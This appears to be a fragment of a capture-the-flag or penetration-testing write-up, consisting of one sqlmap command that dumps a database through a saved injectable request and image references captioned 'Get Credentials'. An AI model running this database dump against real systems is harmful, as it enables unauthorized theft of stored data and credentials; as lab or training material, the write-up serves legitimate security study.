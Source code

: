 ```
sqlmap -r sqli.req --dump
```



<figure><img src="../../.gitbook/assets/sqli grpc.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/sql injection.png" alt=""><figcaption><p>Get Credentials</p></figcaption></figure>
